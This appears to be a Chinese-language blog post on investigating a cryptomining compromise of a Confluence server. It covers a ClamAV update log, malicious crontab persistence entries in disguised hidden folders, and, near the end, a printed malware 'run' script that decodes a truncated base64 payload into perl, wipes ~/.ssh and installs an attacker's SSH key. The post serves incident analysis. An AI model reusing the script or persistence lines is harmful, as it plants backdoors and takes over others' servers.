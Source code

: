 然而运行了一下freshclam

```bash
root@xi102:~# freshclam
Sat Mar  7 16:49:25 2020 -> ClamAV update process started at Sat Mar  7 16:49:25 2020
Sat Mar  7 16:49:25 2020 -> daily.cld database is up to date (version: 25743, sigs: 2209759, f-level: 63, builder: raynman)
Sat Mar  7 16:49:25 2020 -> main.cvd database is up to date (version: 59, sigs: 4564902, f-level: 60, builder: sigmgr)
Sat Mar  7 16:49:25 2020 -> bytecode.cvd database is up to date (version: 331, sigs: 94, f-level: 63, builder: anvilleg)
```

居然显示病毒库是最新的

可疑进程
/opt/atlassian/confluence/jre//bin/java -Djava.ut

然后看了一下有没有可疑的定时任务

```
root@xi102:~# crontab -l
0 0 */3 * * /root/.bashtemp/a/upd>/dev/null 2>&1
@reboot /root/.bashtemp/a/upd>/dev/null 2>&1
5 8 * * 0 /root/.bashtemp/b/sync>/dev/null 2>&1
@reboot /root/.bashtemp/b/sync>/dev/null 2>&1
0 0 */3 * * /tmp/.X19-unix/.rsync/c/aptitude>/dev/null 2>&1
```

那个tmp下面有的时候是`0 0 */3 * * /tmp/.X21-unix/.rsync/c/aptitude>/dev/null 2>&1`

这个`.X某某-unix`应该是想伪装成`.X11-unix`X11转发的临时文件

root@xi102:~/.bashtemp# ps aux | grep cron
root     140526  0.0  0.0  12944  1028 pts/1    S+   17:16   0:00 grep --color=auto cron

看了一下这个目录下面，有鬼，应该就是它了

```
root@xi102:~/.bashtemp# ls
a  b  cron.d  dir2.dir
```

谷歌随手一搜这个.bashtemp，全都是被挖矿的被黑的，先干掉再说
http://blog.itpub.net/31559758/viewspace-2667801/
https://www.anquanke.com/post/id/197662
更新，又看到几个的 http://m.lanhusoft.com/Article/745.html
https://yulijia.net/cn/操作系统/2020/03/03/Trojan-attack-analysis.html#fn:2
把这个文件夹拉下来，可以看到里面有个run文件

```bash
#!/bin/sh
nohup ./stop>>/dev/null &
sleep 5
echo "ZXZhbCB1bnBh....这里太长略过..." | base64 --decode | perl
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3N...
这里一段密钥太长略过...fckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh
```
